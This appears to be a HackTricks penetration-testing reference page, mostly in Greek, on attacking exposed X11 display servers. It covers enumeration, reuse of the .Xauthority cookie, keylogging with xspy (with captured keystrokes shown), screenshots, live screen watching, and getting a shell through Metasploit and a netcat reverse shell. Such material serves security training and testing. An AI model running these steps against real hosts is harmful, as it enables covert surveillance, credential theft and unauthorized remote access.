 # 6000 - Pentesting X11

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## Basic Information

**X Window System** (X) είναι ένα ευέλικτο σύστημα παραθύρων που είναι διαδεδομένο σε λειτουργικά συστήματα βασισμένα σε UNIX. Παρέχει ένα πλαίσιο για τη δημιουργία γραφικών **user interfaces (GUIs)**, με μεμονωμένα προγράμματα να χειρίζονται το σχεδιασμό της διεπαφής χρήστη. Αυτή η ευελιξία επιτρέπει ποικιλόμορφες και προσαρμόσιμες εμπειρίες μέσα στο περιβάλλον X.

**Default port:** 6000
```
PORT       STATE   SERVICE
6000/tcp   open    X11
```
## Enumeration

Έλεγχος για **ανώνυμη σύνδεση:**
```bash
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
```
#### Τοπική Καταμέτρηση

Το αρχείο **`.Xauthority`** στον φάκελο του χρήστη είναι **χρησιμοποιούμενο** από **το X11 για εξουσιοδότηση**. Από [**εδώ**](https://stackoverflow.com/a/37367518):
```bash
$ xxd ~/.Xauthority
00000000: 0100 0006 6d61 6e65 7063 0001 3000 124d  ............0..M
00000010: 4954 2d4d 4147 4943 2d43 4f4f 4b49 452d  IT-MAGIC-COOKIE-
00000020: 3100 108f 52b9 7ea8 f041 c49b 85d8 8f58  1...R.~..A.....X
00000030: 041d ef                                  ...
```
> MIT-magic-cookie-1: Δημιουργία 128bit κλειδιού (“cookie”), αποθήκευσή του στο \~/.Xauthority (ή όπου δείχνει η μεταβλητή περιβάλλοντος XAUTHORITY). Ο πελάτης το στέλνει στον διακομιστή σε απλή μορφή! Ο διακομιστής ελέγχει αν έχει ένα αντίγραφο αυτού του “cookie” και αν ναι, η σύνδεση επιτρέπεται. Το κλειδί δημιουργείται από το DMX.

{% hint style="warning" %}
Για να **χρησιμοποιήσετε το cookie** θα πρέπει να ορίσετε τη μεταβλητή περιβάλλοντος: **`export XAUTHORITY=/path/to/.Xauthority`**
{% endhint %}

#### Τοπική Συνεδρία Καταμέτρησης
```bash
$ w
23:50:48 up 1 day, 10:32,  1 user,  load average: 0.29, 6.48, 7.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
user     tty7     :0               13Oct23 76days 13:37   2.20s xfce4-session
```
Στο παράδειγμα, `localhost:0` εκτελούσε το xfce4-session.

## Επαλήθευση Σύνδεσης
```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```
## Keyloggin

[xspy](http://tools.kali.org/sniffingspoofing/xspy) για να καταγράψει τις πληκτρολογήσεις του πληκτρολογίου.

Sample Output:
```
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```
## Στιγμιότυπα οθόνης
```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```
## Remote Desktop View

Τρόπος από: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
```
./xrdp.py <IP:0>
```
Way from: [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)

Πρώτα πρέπει να βρούμε το ID του παραθύρου χρησιμοποιώντας το xwininfo
```
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```
**XWatchwin**

Για **ζωντανή παρακολούθηση** πρέπει να χρησιμοποιήσουμε
```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```
## Πάρε Shell
```
msf> use exploit/unix/x11/x11_keyboard_exec
```
**Reverse Shell:** Το Xrdp επιτρέπει επίσης τη λήψη αντίστροφης θήκης μέσω του Netcat. Πληκτρολογήστε την ακόλουθη εντολή:
```bash
./xrdp.py \<IP:0> –no-disp
```
Στην διεπαφή μπορείτε να δείτε την επιλογή **R-shell**.

Στη συνέχεια, ξεκινήστε έναν **Netcat listener** στο τοπικό σας σύστημα στην θύρα 5555.
```bash
nc -lvp 5555
```
Τότε, βάλτε τη διεύθυνση IP και την πόρτα σας στην επιλογή **R-Shell** και κάντε κλικ στο **R-shell** για να αποκτήσετε ένα shell

## Αναφορές

* [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
* [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)
* [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

## Shodan

* `port:6000 x11`

<figure><img src="/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Εγγραφείτε στον [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server για να επικοινωνήσετε με έμπειρους hackers και κυνηγούς bug bounty!

**Ενημερώσεις για hacking**\
Ασχοληθείτε με περιεχόμενο που εμβαθύνει στην αδρεναλίνη και τις προκλήσεις του hacking

**Νέα hacking σε πραγματικό χρόνο**\
Μείνετε ενημερωμένοι με τον ταχύτατο κόσμο του hacking μέσω ειδήσεων και πληροφοριών σε πραγματικό χρόνο

**Τελευταίες ανακοινώσεις**\
Μείνετε ενημερωμένοι με τις πιο πρόσφατες bug bounties που ξεκινούν και κρίσιμες ενημερώσεις πλατφόρμας

**Εγγραφείτε μαζί μας στο** [**Discord**](https://discord.com/invite/N3FrSbmwdy) και ξεκινήστε να συνεργάζεστε με κορυφαίους hackers σήμερα!

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
